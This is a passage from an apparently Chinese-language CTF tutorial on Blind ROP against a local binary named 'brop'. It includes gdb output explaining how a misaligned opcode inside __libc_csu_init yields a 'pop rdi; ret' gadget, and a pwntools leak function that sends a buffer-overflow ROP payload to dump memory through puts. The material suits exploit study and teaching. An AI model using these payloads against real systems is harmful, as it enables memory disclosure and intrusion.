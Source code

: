 ```bash
[+] Starting local process './brop': pid 122979
[*] Stopped process './brop' (pid 122979)
puts plt address = 0x400555
```

解释为什么 pop\_rdi\_ret = brop\_gadgets + 9：

```bash
gdb-peda$ x /10i 0x4007ba
   0x4007ba <__libc_csu_init+90>:   pop    rbx         #这是 brop_gatgets
   0x4007bb <__libc_csu_init+91>:   pop    rbp
   0x4007bc <__libc_csu_init+92>:   pop    r12
   0x4007be <__libc_csu_init+94>:   pop    r13
   0x4007c0 <__libc_csu_init+96>:   pop    r14
   0x4007c2 <__libc_csu_init+98>:   pop    r15
   0x4007c4 <__libc_csu_init+100>:  ret    
   0x4007c5:    nop
   0x4007c6:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:  repz ret 

gdb-peda$ x /20i 0x4007ba+9
   0x4007c3 <__libc_csu_init+99>:   pop    rdi         #brop_gatgets+9
   0x4007c4 <__libc_csu_init+100>:  ret    
   0x4007c5:    nop
   0x4007c6:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:  repz ret 
   0x4007d2:    Cannot access memory at address 0x4007d2

#还是看这两句吧
 4007c2:    41 5f                   pop    %r15
 4007c4:    c3                      retq
 #这是 pop r15  ret 的字节码，但是由于 pop rdi，ret 的字节码是 0x5f 0xc3
 #故地址指向 4007c3 的时候解析出来的就是 pop rdi，与此类似，还有 0x4008A1 处的 pop rsi，pop r15，ret
 #这就是由 opcode 错位产生的
```

6、dump plt 表，用于 leak 所需函数的 got 地址

```bash
from pwn import *
from LibcSearcher import *

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    p = process('./brop')
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    p.recvuntil('password?\n')
    p.sendline(payload)
    try:
        data = p.recv()
        p.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        p.close()
        return None


##buffer_length = getBufferLength()
buffer_length = 72
```